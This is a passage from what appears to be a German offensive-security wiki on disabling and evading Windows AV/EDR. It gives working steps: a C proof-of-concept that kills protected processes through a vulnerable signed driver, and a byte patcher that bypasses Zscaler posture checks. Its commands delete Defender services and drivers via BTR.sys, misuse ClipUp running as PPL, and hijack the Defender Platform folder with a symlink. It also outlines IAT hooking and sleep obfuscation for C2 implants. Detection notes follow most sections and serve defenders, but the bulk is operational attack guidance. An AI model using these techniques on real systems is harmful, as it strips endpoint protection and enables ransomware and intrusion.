Storm-2603 nutzte ein kleines Konsolenprogramm namens **Antivirus Terminator**, um den Endpunktschutz zu deaktivieren, bevor die Ransomware abgelegt wurde. Das Tool bringt seinen **eigenen verwundbaren, aber *signierten* Treiber** mit und missbraucht ihn, um privilegierte Kernel-Operationen auszuführen, die selbst AV-Dienste mit Protected-Process-Light (PPL) nicht blockieren können.<sup>[[12]](#references)</sup>

Wichtige Erkenntnisse
1. **Signierter Treiber**: Die auf dem Datenträger abgelegte Datei heißt `ServiceMouse.sys`, doch bei der Binärdatei handelt es sich um den rechtmäßig signierten Treiber `AToolsKrnl64.sys` aus Antiy Labs’ „System In-Depth Analysis Toolkit“. Da der Treiber eine gültige Microsoft-Signatur trägt, wird er auch bei aktivierter Driver-Signature-Enforcement (DSE) geladen.
2. **Dienstinstallation**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   Die erste Zeile registriert den Treiber als **kernel service**, und die zweite startet ihn, sodass `\\.\ServiceMouse` aus dem Userland erreichbar wird.
3. **Vom Treiber bereitgestellte IOCTLs**
   | IOCTL code | Fähigkeit                              |
   |-----------:|-----------------------------------------|
   | `0x99000050` | Einen beliebigen Prozess anhand seiner PID beenden (wird verwendet, um Defender-/EDR-Dienste zu beenden) |
   | `0x990000D0` | Eine beliebige Datei auf dem Datenträger löschen |
   | `0x990001D0` | Den Treiber entladen und den Dienst entfernen |

   Minimaler C proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **Warum es funktioniert**: BYOVD umgeht user-mode-Schutzmaßnahmen vollständig; im Kernel ausgeführter Code kann *geschützte* Prozesse öffnen, beenden oder Kernel-Objekte manipulieren, unabhängig von PPL/PP, ELAM oder anderen Härtungsfunktionen.

Erkennung / Gegenmaßnahmen
•  Aktivieren Sie Microsofts Liste blockierter anfälliger Treiber (`HVCI`, `Smart App Control`), damit Windows das Laden von `AToolsKrnl64.sys` verweigert.
•  Überwachen Sie die Erstellung neuer *kernel*-Dienste und lösen Sie einen Alarm aus, wenn ein Treiber aus einem für alle beschreibbaren Verzeichnis geladen wird oder nicht auf der Allowlist steht.
•  Achten Sie auf user-mode-Handles für benutzerdefinierte Geräteobjekte, auf die verdächtige `DeviceIoControl`-Aufrufe folgen.

### Umgehen von Zscaler Client Connector-Posture-Prüfungen durch Patchen von Binärdateien auf dem Datenträger

Zscaler’s **Client Connector** wendet Geräte-Posture-Regeln lokal an und nutzt Windows RPC, um die Ergebnisse an andere Komponenten zu übermitteln. Zwei schwache Designentscheidungen ermöglichen einen vollständigen Bypass:

1. Die Posture-Auswertung erfolgt **vollständig clientseitig** (ein boolescher Wert wird an den Server gesendet).
2. Interne RPC-Endpunkte prüfen lediglich, ob die verbindende ausführbare Datei **von Zscaler signiert** ist (über `WinVerifyTrust`).<sup>[[11]](#references)</sup>

Durch **Patchen von vier signierten Binärdateien auf dem Datenträger** lassen sich beide Mechanismen neutralisieren:

| Binärdatei | Gepatchte ursprüngliche Logik | Ergebnis |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | Gibt immer `1` zurück, sodass jede Prüfung als konform gilt |
| `ZSAService.exe` | Indirekter Aufruf von `WinVerifyTrust` | NOP-ed ⇒ jeder Prozess (auch ein unsignierter) kann sich mit den RPC-Pipes verbinden |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | Ersetzt durch `mov eax,1 ; ret` |
| `ZSATunnel.exe` | Integritätsprüfungen des Tunnels | Kurzgeschlossen |

Auszug eines minimalen Patchers:

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```

Nach dem Ersetzen der Originaldateien und dem Neustart des Service-Stacks:

* **Alle** Posture Checks werden als **grün/konform** angezeigt.
* Nicht signierte oder veränderte Binärdateien können die benannten Pipe-RPC-Endpunkte öffnen (z. B. `\\RPC Control\\ZSATrayManager_talk_to_me`).
* Der kompromittierte Host erhält uneingeschränkten Zugriff auf das durch die Zscaler-Richtlinien definierte interne Netzwerk.

Diese Fallstudie zeigt, wie sich rein clientseitige Vertrauensentscheidungen und einfache Signaturprüfungen mit wenigen Byte-Patches umgehen lassen.

## Microsoft Defender: Missbrauch vertrauenswürdiger Funktionen in `BTR.sys`

Der **Boot-Time Removal**-Treiber von Defender ist ein nützliches Gegenbeispiel zu klassischem BYOVD. `BTR.sys` ist eine legitime, von Microsoft signierte Remediation-Komponente ohne Memory-Corruption-Bug und ohne IOCTL-Schnittstelle; nachdem Administratorzugriff und `SeLoadDriverPrivilege` erlangt wurden, kann ein Operator stattdessen dessen private Remediation-Transaktion fälschen und die vorgesehenen Ring-0-Datei-/Registry-Operationen ausführen. Dies ist ein **Post-Compromise-Primitive zur Neutralisierung von AV/EDR, kein Initial Access oder Privilege Escalation**. Der Treiber kann aus der `BOOTTIMETOOL`-Ressource der `MpEngine.dll` des Ziels selbst extrahiert werden, statt einen auffälligen Drittanbieter-Treiber einzubinden.<sup>[[36]](#references)</sup>

### Den One-Shot-Treiber bereitstellen

Defender legt die Ressource normalerweise als Datei mit zufälligem Namen im Format `[a-z]{8}.sys` ab und registriert einen ähnlich benannten Kernel-Dienst. `DriverEntry` liest den `Args`-Wert des Dienstes, öffnet den referenzierten NTFS-ADS, entschlüsselt und validiert die Aktionsliste, schreibt Feedback und gibt nach erfolgreicher Ausführung `0xC0000056` (`STATUS_DELETE_PENDING`) zurück, damit der Treiber entladen wird, statt resident zu bleiben. Ein gefälschter Dienst hat die folgenden charakteristischen Werte.<sup>[[36]](#references)[[37]](#references)</sup>

```text
Type         = 1
Start        = 1
ErrorControl = 0
ImagePath    = \??\C:\Windows\System32\drivers\<random>.sys
Group        = Boot Bus Extender
Args         = C:\Windows\System32\drivers\<random>.sys:changelist
```

Der `:changelist`-Stream enthält einen RC4-verschlüsselten Blob. Die analysierten Builds verwenden denselben festen 256-Byte-Schlüssel, die Verschlüsselung ist also keine Autorisierungsgrenze. Ein gültiger Klartext besteht aus einem 24-Byte-Global-Header (`Magic=0xFEE1DEAD`, `Version=2`, `PayloadOffset=0x10`, Header-CRC und einer aus dem Payload abgeleiteten Transaktions-ID), gefolgt von einem nullterminierten UTF-16-Feedback-Pfad und beliebig vielen Elementen. Jedes Element besitzt einen 16-Byte-Header (`DataSize`, `Action`, `HeaderCRC`, `DataCRC`) sowie aktionsspezifische Daten, die mit **genau vier NUL-Bytes** enden. Jeder Header- und Datenbereich wird unabhängig mit CRC-32-Polynom `0xEDB88320`, initialem Zustand `0xFFFFFFFF` und **ohne abschließendes XOR** (`~CRC32`) geprüft; der CRC-Zustand wird für jeden Bereich zurückgesetzt.<sup>[[36]](#references)[[37]](#references)</sup>

Die akzeptierten Aktions-IDs machen diese Kernel-Primitiven verfügbar.<sup>[[36]](#references)[[37]](#references)</sup>

| ID | Elementdaten | Ergebnis |
| --- | --- | --- |
| 1 | `[UTF-16-Pfad]` | Eine Datei löschen, auch wenn sie gesperrt ist |
| 2 | `[UTF-16-Pfad]` | Ein leeres Verzeichnis entfernen |
| 3 | `[Flags][Quelle][Ziel]` | Eine Datei in einen vom Angreifer ausgewählten geschützten Pfad verschieben; ein leeres Ziel bedeutet Löschen |
| 4 | `[Flags][Schlüsselpfad]` | Einen Registrierungsschlüssel rekursiv löschen |
| 5 | `[Flags][Schlüsselpfad + "\\" + Wert]` | Einen Registrierungswert löschen |
| 6 | `[Flags][Typ][Größe][Schlüsselpfad + "\\" + Wert][Daten]` | Einen Registrierungswert erstellen/aktualisieren und fehlende Schlüsselpfade erstellen |

Bei den Aktionen 5 und 6 ist das Trennzeichen zwischen Schlüssel und Wert auf dem Draht **zwei aufeinanderfolgende Backslashes**; ein konventionell formatierter Pfad wird nicht korrekt aufgeteilt. Die Feedback-Datei bildet die Anfrage größtenteils nach, aber die ersten vier Datenbytes jedes Elements werden zu dessen resultierendem `NTSTATUS`. Bei den Aktionen 1 und 2, die kein führendes Flags-Feld haben, verschiebt BTR den Pfad in die vier reservierten abschließenden Bytes, um Platz für diesen Status zu schaffen.<sup>[[36]](#references)</sup>

### `BTR_CLI`-Workflow und Zeitfenster beim frühen Systemstart

[`BTR_CLI`](https://github.com/Dump-GUY/BTR_CLI) implementiert die vollständige Kette: `BTR.sys` aus dem lokalen Defender extrahieren, `<random>.sys:changelist` und einen Feedback-Stream erstellen, verkettete Aktionen serialisieren, mit Prüfsummen versehen und verschlüsseln, den Dienstregistrierungsschlüssel direkt erstellen und anschließend `NtLoadDriver` für `-trigger now` aufrufen oder den Treiber für `-trigger boot` als Systemstarttreiber zurücklassen. Die direkte Registrierungseinrichtung umgeht den normalen SCM-`CreateServiceW`-Pfad und erzeugt daher **kein** Dienstinstallationsereignis mit der Event-ID 7045. Artefakte, die beim Systemstart ausgelöst werden, können später mit `BTR_CLI.exe -cleanup <service_name>` entfernt werden.<sup>[[36]](#references)[[37]](#references)</sup>

```powershell
# Runtime: remove protected security-service registrations from Ring 0
BTR_CLI.exe -chain -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WdFilter" -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" -trigger now

# Boot: delete a security driver before its user-mode protection stack starts
BTR_CLI.exe -a 1 -s "C:\Windows\System32\drivers\wd\WdFilter.sys" -trigger boot
```

`Start=0` ist nicht nutzbar, da BTR Datei-E/A aus `DriverEntry` ausführt, bevor der Storage-Stack und der `SystemRoot`-Link bereit sind. `Start=1` in Verbindung mit der Gruppe `Boot Bus Extender` mit hoher Priorität wird stattdessen in Phase 1 ausgeführt: NTFS ist nutzbar, aber viele Security-Treiber mit Systemstart und EDR-Dienste im User-Mode wurden noch nicht initialisiert. Boot-Start-Filter wie `WdFilter` sind möglicherweise bereits geladen, doch BTR kann ihre Binärdateien oder Service-Konfiguration vor dem nächsten Start entfernen und Service-Executable-Dateien löschen, bevor SCM sie startet. ELAM schließt diese Lücke nicht, da BTR nach der Boot-Start-Auswertung ausgeführt wird und eine gültige Microsoft-Signatur hat.<sup>[[36]](#references)</sup>

Mehrere Aktionen werden in einer Transaktion ausgeführt. Der PoC setzt Action 1 für den fest kodierten Pfad `\SystemRoot\Temp\BootClean.log` voran: BTR erstellt dieses Log, verarbeitet dann seine eigene Löschanforderung und entfernt es vor dem Entladen. Dadurch gibt es weniger Spuren. Feedback in `<random>.sys:<random>.dat` abzulegen, ermöglicht es, den Treiber und beide Streams gemeinsam zu entfernen.<sup>[[36]](#references)[[37]](#references)</sup>

### Erkennungskorrelationen mit hoher Signifikanz

Regeln, die nur auf Signaturen basieren, und die Microsoft-Liste blockierter verwundbarer Treiber adressieren keinen Missbrauch der vorgesehenen BTR-Funktionalität. Bevorzuge die folgenden Verhaltenskorrelationen und unterscheide dabei legitime Defender-Herkunft von einem beliebigen Launcher.<sup>[[36]](#references)</sup>

- **Sysmon 15:** Die Erstellung von `.sys:changelist` ist bei der BTR-Bereitstellung universell. Ein `.dat`-ADS, der an dieselbe `.sys` angehängt ist, ist besonders verdächtig, da legitimer Defender Feedback normalerweise unter `C:\ProgramData\Microsoft\Windows Defender\Scans\RebootActions\` ablegt.
- **Sysmon 12/13 ohne System 7045:** Korreliere die direkte Erstellung von `HKLM\SYSTEM\CurrentControlSet\Services\<random>` mit `Args=...:changelist` und `Group=Boot Bus Extender` mit einem fehlenden passenden SCM-Installationsereignis.
- **Sysmon 6 -> 23:** Korreliere das Laden eines bekannten BTR-Treibers aus einer nicht von Defender stammenden Prozesskette mit anschließender Dateilöschung, die `System`/PID 4 zugeordnet wird, insbesondere bei Sicherheits-Binärdateien.
- **Sysmon 11 -> 23:** Erzeuge einen Alarm, wenn `System`/PID 4 `\SystemRoot\Temp\BootClean.log` kurz nacheinander erstellt und löscht.
- Beschränke und protokolliere die Zuweisung/Aktivierung von `SeLoadDriverPrivilege`; eine Microsoft-Signatur allein ist kein ausreichender Vertrauensnachweis, wenn ein Security-Tool-Treiber von `cmd.exe`, PowerShell oder einem unbekannten Prozess bereitgestellt wird.

## Protected Process Light (PPL) missbrauchen, um AV/EDR mit LOLBINs zu manipulieren

Protected Process Light (PPL) erzwingt eine Signer-/Level-Hierarchie, sodass nur gleich oder höher geschützte Prozesse sich gegenseitig manipulieren können. Wenn du offensiv ein PPL-fähiges Binary legitim starten und seine Argumente kontrollieren kannst, lässt sich gutartige Funktionalität (z. B. Logging) in eine eingeschränkte, durch PPL abgesicherte Schreibfunktion für geschützte Verzeichnisse umwandeln, die von AV/EDR verwendet werden.<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

Was dafür sorgt, dass ein Prozess als PPL ausgeführt wird
- Die Ziel-EXE (und alle geladenen DLLs) muss mit einem PPL-fähigen EKU signiert sein.
- Der Prozess muss mit CreateProcess und den Flags `EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS` erstellt werden.
- Es muss eine kompatible Schutzstufe angefordert werden, die zur Signatur des Binaries passt (z. B. `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` für Anti-Malware-Signer, `PROTECTION_LEVEL_WINDOWS` für Windows-Signer). Falsche Stufen führen dazu, dass die Erstellung fehlschlägt.

Siehe auch eine umfassendere Einführung in PP/PPL und den LSASS-Schutz:

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

Launcher-Tools
- Open-Source-Hilfsprogramm: CreateProcessAsPPL (wählt die Schutzstufe aus und leitet Argumente an die Ziel-EXE weiter):
  - [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- Verwendungsmuster:

```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```

LOLBIN-Primitiv: ClipUp.exe
- Die signierte Systemdatei `C:\Windows\System32\ClipUp.exe` startet sich selbst und akzeptiert einen Parameter, um eine Protokolldatei in einen vom Aufrufer angegebenen Pfad zu schreiben.
- Wird sie als PPL-Prozess gestartet, erfolgt der Schreibvorgang mit PPL-Unterstützung.
- ClipUp kann keine Pfade mit Leerzeichen verarbeiten; verwende 8.3-Kurznamen, um auf normalerweise geschützte Speicherorte zu verweisen.

8.3-Kurznamen-Hilfen
- Kurznamen auflisten: `dir /x` in jedem übergeordneten Verzeichnis.
- Kurzen Pfad in cmd ermitteln: `for %A in ("C:\ProgramData\Microsoft\Windows Defender\Platform") do @echo %~sA`

Missbrauchskette (abstrakt)
1) Starte die PPL-fähige LOLBIN (ClipUp) mit `CREATE_PROTECTED_PROCESS` über einen Launcher (z. B. CreateProcessAsPPL).
2) Übergib das ClipUp-Argument für den Protokollpfad, um das Erstellen einer Datei in einem geschützten AV-Verzeichnis zu erzwingen (z. B. Defender Platform). Verwende bei Bedarf 8.3-Kurznamen.
3) Wenn die Zieldatei normalerweise von der laufenden AV geöffnet/gesperrt ist (z. B. MsMpEng.exe), plane den Schreibvorgang beim Systemstart, bevor das AV startet, indem du einen Autostartdienst installierst, der zuverlässig früher ausgeführt wird. Überprüfe die Startreihenfolge mit Process Monitor (Boot-Protokollierung).
4) Beim Neustart erfolgt der PPL-gestützte Schreibvorgang, bevor das AV seine Dateien sperrt. Dadurch wird die Zieldatei beschädigt und der Start verhindert.

Beispielaufruf (Pfade aus Sicherheitsgründen geschwärzt/gekürzt):

```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```

Hinweise und Einschränkungen
- Du kannst den Inhalt, den ClipUp schreibt, nicht steuern, sondern nur den Speicherort; die Primitive eignet sich daher eher zur Beschädigung als zur gezielten Injektion von Inhalten.
- Lokale Administratorrechte/SYSTEM-Rechte sind erforderlich, um einen service zu installieren/zu starten, ebenso ein Zeitfenster für einen Neustart.
- Das Timing ist entscheidend: Das Ziel darf nicht geöffnet sein; bei der Ausführung während des Systemstarts werden Dateisperren vermieden.

Erkennungen
- Prozesserstellung von `ClipUp.exe` mit ungewöhnlichen Argumenten, insbesondere mit nicht standardmäßigen Startprogrammen als übergeordnetem Prozess, rund um den Systemstart.
- Neue services, die so konfiguriert sind, dass sie verdächtige Binärdateien automatisch starten und konsequent vor Defender/AV gestartet werden. Untersuche die Erstellung/Änderung von services vor Fehlern beim Start von Defender.
- Überwachung der Dateiintegrität von Defender-Binärdateien/Platform-Verzeichnissen; unerwartete Dateiänderungen oder -erstellungen durch Prozesse mit Protected-Process-Flags.
- ETW/EDR-Telemetrie: Suche nach Prozessen, die mit `CREATE_PROTECTED_PROCESS` erstellt wurden, und nach ungewöhnlicher PPL-Level-Nutzung durch Nicht-AV-Binärdateien.

Mitigations
- WDAC/Code Integrity: Beschränke, welche signierten Binärdateien als PPL und unter welchen übergeordneten Prozessen ausgeführt werden dürfen; blockiere ClipUp-Aufrufe außerhalb legitimer Kontexte.
- Service-Hygiene: Beschränke das Erstellen/Ändern automatisch startender services und überwache Manipulationen der Startreihenfolge.
- Stelle sicher, dass Defender Tamper Protection und Early-Launch-Schutz aktiviert sind; untersuche Startfehler, die auf eine Beschädigung von Binärdateien hindeuten.
- Ziehe in Betracht, die Generierung von 8.3-Kurznamen auf Volumes mit Sicherheitstools zu deaktivieren, sofern dies mit deiner Umgebung kompatibel ist (gründlich testen).

## Manipulation von Microsoft Defender durch Hijacking eines Symlinks im Platform-Version-Ordner

Windows Defender wählt die Plattform, von der es ausgeführt wird, indem es die Unterordner in folgendem Verzeichnis auflistet:
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

Es wählt den Unterordner mit der höchsten lexikografischen Versionszeichenfolge (z. B. `4.18.25070.5-0`) aus und startet anschließend die Defender-Serviceprozesse von dort (wobei die service-/Registry-Pfade entsprechend aktualisiert werden). Bei dieser Auswahl wird den Verzeichniseinträgen vertraut, einschließlich Verzeichnis-Reparse-Points (Symlinks). Ein Administrator kann dies ausnutzen, um Defender auf einen vom Angreifer beschreibbaren Pfad umzuleiten und DLL-Sideloading oder eine Dienstunterbrechung zu erreichen.<sup>[[21]](#references)[[22]](#references)</sup>

Voraussetzungen
- Lokale Administratorrechte (erforderlich, um Verzeichnisse/Symlinks im Platform-Ordner zu erstellen)
- Möglichkeit, einen Neustart durchzuführen oder eine erneute Auswahl der Defender-Plattform auszulösen (Neustart des service beim Systemstart)
- Es werden nur integrierte Tools benötigt (`mklink`)

Warum es funktioniert
- Defender blockiert Schreibvorgänge in seinen eigenen Ordnern, aber bei der Plattформаuswahl vertraut es den Verzeichniseinträgen und wählt die lexikografisch höchste Version aus, ohne zu prüfen, ob das Ziel auf einen geschützten/vertrauenswürdigen Pfad verweist.

Schritt für Schritt (Beispiel)
1) Erstelle eine beschreibbare Kopie des aktuellen Platform-Ordners, z. B. `C:\TMP\AV`:
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Erstellen Sie innerhalb von Platform einen Verzeichnis-Symlink mit einer höheren Versionsnummer, der auf Ihren Ordner verweist:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) Trigger-Auswahl (Neustart empfohlen):
```cmd
shutdown /r /t 0
```
4) Überprüfen Sie, ob MsMpEng.exe (WinDefend) vom umgeleiteten Pfad aus ausgeführt wird:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
You should observe den neuen Prozesspfad unter `C:\TMP\AV\` und die Service-Konfiguration/Registry, die diesen Speicherort widerspiegeln.

Post-Exploitation-Optionen
- DLL sideloading/code execution: Lege DLLs ab bzw. ersetze DLLs, die Defender aus seinem Anwendungsverzeichnis lädt, um Code in den Prozessen von Defender auszuführen. Siehe den obigen Abschnitt: [DLL Sideloading & Proxying](#dll-sideloading--proxying).
- Service kill/denial: Entferne den Versions-Symlink, damit der konfigurierte Pfad beim nächsten Start nicht aufgelöst werden kann und Defender nicht startet:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```

> [!TIP]
> Beachte, dass diese Technik allein keine Privilegieneskalation ermöglicht; sie erfordert Administratorrechte.

## API/IAT-Hooking + Call-Stack-Spoofing mit PIC (im Stil von Crystal Kit)

Red Teams können die Laufzeitumgehung aus dem C2-Implantat in das Zielmodul selbst verlagern, indem sie dessen Import Address Table (IAT) hooken und ausgewählte APIs über vom Angreifer kontrollierten, positionsunabhängigen Code (PIC) leiten. Dadurch lässt sich die Umgehung über die kleine API-Oberfläche hinaus verallgemeinern, die viele Kits bereitstellen (z. B. CreateProcessA), und derselbe Schutz auf BOFs und Post-Exploitation-DLLs ausweiten.<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

Ansatz auf hoher Ebene
- Ein PIC-Blob wird mithilfe eines Reflective Loaders neben dem Zielmodul bereitgestellt (vorangestellt oder als Begleitdatei). Der PIC muss eigenständig und positionsunabhängig sein.
- Beim Laden der Host-DLL werden deren IMAGE_IMPORT_DESCRIPTOR durchlaufen und die IAT-Einträge für ausgewählte Imports (z. B. CreateProcessA/W, CreateThread, LoadLibraryA/W, VirtualAlloc) so geändert, dass sie auf schlanke PIC-Wrapper zeigen.
- Jeder PIC-Wrapper führt vor dem Tail-Call an die echte API-Adresse Umgehungstechniken aus. Typische Umgehungstechniken umfassen:
  - Maskieren/Entmaskieren des Speichers rund um den Aufruf (z. B. Beacon-Bereiche verschlüsseln, RWX→RX, Seitennamen/Berechtigungen ändern) und anschließendes Wiederherstellen.
  - Call-Stack-Spoofing: Einen unauffälligen Stack aufbauen und zur Ziel-API wechseln, sodass die Call-Stack-Analyse die erwarteten Frames ermittelt.<sup>[[9]](#references)</sup>
- Für die Kompatibilität wird eine Schnittstelle exportiert, über die ein Aggressor-Skript (oder ein Äquivalent) registrieren kann, welche APIs für Beacon, BOFs und Post-Ex-DLLs gehookt werden sollen.

Warum hier IAT-Hooking?
- Funktioniert für jeden Code, der den gehookten Import verwendet, ohne den Tool-Code zu ändern oder sich darauf zu verlassen, dass Beacon bestimmte APIs als Proxy bereitstellt.
- Deckt Post-Ex-DLLs ab: Durch das Hooken von LoadLibrary* lassen sich Modul-Ladevorgänge abfangen (z. B. System.Management.Automation.dll, clr.dll) und dieselben Maskierungs-/Stack-Umgehungstechniken auf deren API-Aufrufe anwenden.
- Ermöglicht wieder die zuverlässige Verwendung von Post-Ex-Befehlen, die Prozesse starten, gegen Call-Stack-basierte Erkennung, indem CreateProcessA/W umhüllt wird.

Minimale IAT-Hook-Skizze (x64-C/C++-Pseudocode)
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
Hinweise
- Wende den Patch nach den Relocations/ASLR und vor der ersten Verwendung des Imports an. Reflective Loader wie TitanLdr/AceLdr zeigen das Hooking während der DllMain des geladenen Moduls.
- Halte Wrapper klein und PIC-sicher; löse die echte API über den ursprünglichen IAT-Wert auf, den du vor dem Patchen gespeichert hast, oder über LdrGetProcedureAddress.
- Verwende für PIC RW → RX-Übergänge und lasse keine beschreibbaren+ausführbaren Seiten zurück.

Call-Stack-Spoofing-Stub
- PIC-Stub-Techniken im Stil von Draugr erstellen eine gefälschte Call Chain (Return-Adressen in legitimen Modulen) und springen dann zur echten API.
- Damit werden Erkennungen umgangen, die bei Beacon/BOFs kanonische Stacks für sensible APIs erwarten.
- Kombiniere dies mit Stack-Cutting-/Stack-Stitching-Techniken, um vor dem API-Prolog innerhalb der erwarteten Frames zu landen.

Operative Integration
- Stelle den Reflective Loader den Post-Ex-DLLs voran, damit PIC und Hooks automatisch initialisiert werden, wenn die DLL geladen wird.
- Verwende ein Aggressor-Skript, um Ziel-APIs zu registrieren, sodass Beacon und BOFs transparent denselben Evasion-Pfad nutzen, ohne dass Codeänderungen erforderlich sind.

Überlegungen zu Detection/DFIR
- IAT-Integrität: Einträge, die auf Nicht-Image-Adressen (Heap/anonym) verweisen; regelmäßige Überprüfung von Import-Zeigern.
- Stack-Anomalien: Return-Adressen, die zu keinem geladenen Image gehören; abrupte Übergänge zu Nicht-Image-PIC; inkonsistente RtlUserThreadStart-Abstammung.
- Loader-Telemetrie: Schreibvorgänge im Prozess auf die IAT, frühe DllMain-Aktivität, die Import-Thunks verändert, unerwartete RX-Bereiche, die beim Laden erstellt werden.
- Image-Load-Evasion: Wenn LoadLibrary* gehookt wird, verdächtige Ladevorgänge von Automation-/CLR-Assemblies überwachen, die mit Memory-Masking-Ereignissen korrelieren.

Verwandte Bausteine und Beispiele
- Reflective Loader, die während des Ladens IAT-Patching durchführen (z. B. TitanLdr, AceLdr)
- Memory-Masking-Hooks (z. B. simplehook) und Stack-Cutting-PIC (stackcutting)
- PIC-Call-Stack-Spoofing-Stub-Techniken (z. B. Draugr)


## Import-Time-IAT-Hooking + Sleep-Obfuscation (Crystal Palace/PICO)

### Import-Time-IAT-Hooks über ein residenten PICO

Wenn du einen Reflective Loader kontrollierst, kannst du Imports **während** `ProcessImports()` hooken, indem du den `GetProcAddress`-Zeiger des Loaders durch einen eigenen Resolver ersetzt, der zuerst Hooks prüft:<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- Erstelle ein **residenten PICO** (persistentes PIC-Objekt), das bestehen bleibt, nachdem sich der transiente Loader-PIC selbst freigegeben hat.
- Exportiere eine Funktion `setup_hooks()`, die den Import-Resolver des Loaders überschreibt (z. B. `funcs.GetProcAddress = _GetProcAddress`).
- Lasse in `_GetProcAddress` Ordinal-Imports aus und verwende eine hashbasierte Hook-Suche wie `__resolve_hook(ror13hash(name))`. Wenn ein Hook vorhanden ist, gib ihn zurück; andernfalls leite den Aufruf an den echten `GetProcAddress` weiter.
- Registriere Hook-Ziele zur Link-Zeit mit Crystal-Palace-Einträgen der Form `addhook "MODULE$Func" "hook"`. Der Hook bleibt gültig, weil er sich im residenten PICO befindet.

So erhältst du eine **IAT-Umleitung zur Import-Zeit**, ohne nach dem Laden den Code-Abschnitt der geladenen DLL zu patchen.

### Erzwingen hookbarer Imports, wenn das Ziel PEB-Walking verwendet

Import-Time-Hooks werden nur ausgelöst, wenn die Funktion tatsächlich in der IAT des Ziels steht. Wenn ein Modul APIs über einen PEB-Walk + Hash auflöst (ohne Import-Eintrag), erzwinge einen echten Import, damit der `ProcessImports()`-Pfad des Loaders ihn erfasst:

- Ersetze die Auflösung gehashter Exports (z. B. `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`) durch eine direkte Referenz wie `&WaitForSingleObject`.
- Der Compiler erzeugt einen IAT-Eintrag, der die Abfangung ermöglicht, wenn der Reflective Loader Imports auflöst.

### Ekko-artige Sleep-/Idle-Obfuscation ohne `Sleep()` zu patchen

Anstatt `Sleep` zu patchen, hooke die **tatsächlich verwendeten Wait-/IPC-Primitive** des Implants (`WaitForSingleObject(Ex)`, `WaitForMultipleObjects`, `ConnectNamedPipe`). Um lange Wartezeiten herum kannst du eine Obfuscation Chain im Ekko-Stil aufrufen, die das In-Memory-Image während der Idle-Zeit verschlüsselt:<sup>[[31]](#references)[[27]](#references)</sup>

- Verwende `CreateTimerQueueTimer`, um eine Abfolge von Callbacks zu planen, die `NtContinue` mit vorbereiteten `CONTEXT`-Frames aufrufen.
- Typische Chain (x64): Image auf `PAGE_READWRITE` setzen → RC4-Verschlüsselung mit `advapi32!SystemFunction032` auf das gesamte gemappte Image anwenden → blockierenden Wait ausführen → RC4-Entschlüsselung → **abschnittsweise Berechtigungen wiederherstellen**, indem die PE-Sections durchlaufen werden → Abschluss signalisieren.
- `RtlCaptureContext` liefert eine `CONTEXT`-Vorlage. Klone sie in mehrere Frames und setze die Register (`Rip/Rcx/Rdx/R8/R9`), um jeden Schritt aufzurufen.

Operatives Detail: Gib bei langen Wartezeiten (z. B. `WAIT_OBJECT_0`) „Erfolg“ zurück, damit der Aufrufer fortfährt, während das Image maskiert ist. Dieses Muster verbirgt das Modul während Idle-Zeiträumen vor Scannern und vermeidet die klassische Signatur eines „gepatchten `Sleep()`“.

Detection-Ideen (telemetriebasiert)
- Bursts von `CreateTimerQueueTimer`-Callbacks, die auf `NtContinue` zeigen.
- Verwendung von `advapi32!SystemFunction032` auf großen, zusammenhängenden Puffern in Image-Größe.
- `VirtualProtect` auf große Speicherbereiche, gefolgt von einer benutzerdefinierten Wiederherstellung der Berechtigungen pro Section.

### Laufzeitregistrierung von CFG-Zielen für Sleep-Obfuscation-Gadgets

